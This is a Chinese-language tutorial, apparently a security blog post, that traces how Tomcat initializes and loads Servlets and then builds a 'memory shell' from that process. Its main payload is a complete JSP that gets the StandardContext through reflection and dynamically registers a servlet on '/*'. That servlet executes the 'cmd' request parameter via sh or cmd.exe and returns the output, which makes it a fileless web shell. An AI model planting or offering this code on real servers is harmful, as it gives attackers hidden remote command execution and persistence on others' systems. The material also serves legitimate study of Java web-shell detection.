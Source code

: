## Servlet基础介绍

直接看tomacat基础篇

我们主要关注`Servlet`的初始化阶段和加载过程

## 初始化流程分析

从web.xml中获取Servlet，然后调用创建了wrapper，然后调用set方法配置wrapper相关的属性

![image-20221121233840684](img/image-20221121233840684.png)

将创建配置好的`wrapper`添加到`context`上下文中

![image-20221121234208821](img/image-20221121234208821.png)



然后会遍历web.xml中servlet-mapping的servlet-name和对应的url-pattern，调用`StandardContext.addServletMappingDecoded()`添加servlet对应的映射:

![image-20221121234350420](img/image-20221121234350420.png)

总结一下，Servlet的初始化一共有几个步骤:

> 1.通过 context.createWapper() 创建 Wapper 对象
>
> 2.设置 Servlet 的 LoadOnStartUp 的值(重要)
> 3.设置 Servlet 的 Name
> 4.设置 Servlet 对应的 Class
> 5.将 Servlet 添加到 context 的 children 中
> 6.将 url 路径和 servlet 类做映射

## Servlet加载过程

在`org.apache.catalina.core.StandardWapper#loadServlet()`处下断点调试，回溯到`StandardContext.startInternal()`方法:

![image-20221121235805045](img/image-20221121235805045.png)

`findChildren()`方法从StandardContext中拿到所有的child并传到`loadOnStartUp()`方法处理，跟到`loadOnstartup()`

这个位置说明了我们需要赋值给`loadOnStartup`这个属性

![image-20221121235931186](img/image-20221121235931186.png)

![image-20221121235717110](img/image-20221121235717110.png)

其中

>load-on-startup 这个元素的含义是在服务器启动的时候就加载这个servlet(实例化并调用init()方法). 这个元素中的可选内容必须为一个整数,表明了这个servlet被加载的先后顺序. 当是一个负数时或者没有指定时，则表示服务器在该servlet被调用时才加载。
>
>当未设置load-on-startup属性是，tomcat采用的是一种懒加载的机制，只有servlet被调用时才会加载到Context中。

由于我们需要动态注册Servlet，为了使其被加载，我们必须设置load-on-startup属性。

##  内存马流程分析

根据上述的流程分析，我们可以模仿上述的加载机制手动注册一个servlet:

>1.获取StandardContext
>
>2.制作一个恶意的servlet
>
>3.通过 context.createWapper() 创建 Wapper 对象
>
>4.设置 Servlet 的 LoadOnStartUp 的值
>
>5.设置 Servlet 的 Name
>
>6.设置 Servlet 对应的 Class
>
>7.将 Servlet 添加到 context 的 children 中
>
>8.将 url 路径和 servlet 类做映射

代码

```jsp
<%@ page import="org.apache.catalina.core.StandardContext" %>
<%@ page import="java.lang.reflect.Field" %>
<%@ page import="org.apache.catalina.connector.Request" %>
<%@ page import="java.io.InputStream" %>
<%@ page import="java.util.Scanner" %>
<%@ page import="java.io.IOException" %>
<%@ page import="org.apache.catalina.Wrapper" %>
<%@ page import="java.io.PrintWriter" %>
<%!
    Servlet servlet = new Servlet() {
        @Override
        public void init(ServletConfig servletConfig) throws ServletException {

        }
        @Override
        public ServletConfig getServletConfig() {
            return null;
        }
        @Override
        public void service(ServletRequest servletRequest, ServletResponse servletResponse) throws ServletException, IOException {
            String cmd = servletRequest.getParameter("cmd");
            boolean isLinux = true;
            String osTyp = System.getProperty("os.name");
            if (osTyp != null && osTyp.toLowerCase().contains("win")) {
                isLinux = false;
            }
            String[] cmds = isLinux ? new String[]{"sh", "-c", cmd} : new String[]{"cmd.exe", "/c", cmd};
            InputStream in = Runtime.getRuntime().exec(cmds).getInputStream();
            Scanner s = new Scanner(in).useDelimiter("\\a");
            String output = s.hasNext() ? s.next() : "";
            PrintWriter out = servletResponse.getWriter();
            out.println(output);
            out.flush();
            out.close();
        }
        @Override
        public String getServletInfo() {
            return null;
        }
        @Override
        public void destroy() {

        }
    };
%>
<%
    Field reqF = request.getClass().getDeclaredField("request");
    reqF.setAccessible(true);
    Request req = (Request) reqF.get(request);
    StandardContext stdcontext = (StandardContext) req.getContext();
%>
<%
    Wrapper newWrapper = stdcontext.createWrapper();
    String name = servlet.getClass().getSimpleName();
    newWrapper.setName(name);
    newWrapper.setLoadOnStartup(1);
    newWrapper.setServlet(servlet);
    newWrapper.setServletClass(servlet.getClass().getName());
%>
<%
    stdcontext.addChild(newWrapper);
    stdcontext.addServletMappingDecoded("/*", name);
%>
```

tomcat整个Servlet的过程

```
装载：启动服务器时加载Servlet的实例

初始化：web服务器启动时或web服务器接收到请求时，或者两者之间的某个时刻启动。初始化工作有init()方法负责执行完成

调用：即每次调用Servlet的service()，从第一次到以后的多次访问，都是只是调用doGet()或doPost()方法（doGet、doPost内部实现，具体参照HttpServlet类service()的重写）

销毁：停止服务器时调用destroy()方法，销毁实例
```

### 获取StandardContext方法

```java
Field reqF = request.getClass().getDeclaredField("request");
reqF.setAccessible(true);
Request req = (Request) reqF.get(request);
StandardContext stdcontext = (StandardContext) req.getContext();
```

